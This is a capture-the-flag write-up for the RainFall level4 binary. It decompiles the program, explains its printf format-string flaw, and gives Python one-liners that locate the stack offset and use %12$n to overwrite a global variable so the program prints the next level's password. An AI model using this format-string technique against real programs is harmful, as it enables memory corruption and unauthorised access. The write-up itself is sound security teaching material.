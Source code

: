 ## Step 1: Static & Dynamic Analysis

```c
int32_t p(char* arg1)
{
    return printf(arg1);
}

uint32_t n()
{
    void buf;
    fgets(&buf, 512, __bss_start);
    p(&buf);
    uint32_t m = m;
    
    if (m != 0x1025544)
        return m;
    
    return system("/bin/cat /home/user/level5/.pass");
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    return n();
}
```

### Explanation

The binary fills a `buffer` (`buf`) via `stdin` using `fgets()` and will print the password if the value `m` is equal to `0x1025544` (`16930116`).  
The function `p()` calls `printf()` and simply prints `buf`, making the binary vulnerable to a `format string attack`.  
Our goal is to overwrite the value of `m` to pass the check and print the password.

To overwrite `m`, we will find its address and determine its position on the stack relative to `printf()` arguments.

```asm
(gdb) info var
    0x08049810  m
``` 

Now, to find its position, we print stack addresses using the `%p` format specifier.

```bash
level4@RainFall:~$ python -c "print('\x42\x42\x42\x42' + '%p ' * 15)" | ./level4 
BBBB
0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x42424242 0x25207025 0x70252070 0x20702520
```

We notice that `0x42424242` is the 12th argument on the stack.

Now, we are going to use the `$n` `printf()` format. It is used to write the number of printed characters combined with `%12`, which allows us to specify an address where the value will be written.

Concretely, our payload will first contain the address of `m`, followed by `16930112` random characters, and then `%12$n`, which writes the total number of printed characters (`4` + `16930112`, equivalent to `0x1025544` in hexa) to the 12th argument on the stack (`0x08049810`).

## Step 2: Exploiting the Binary

```bash
level3@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
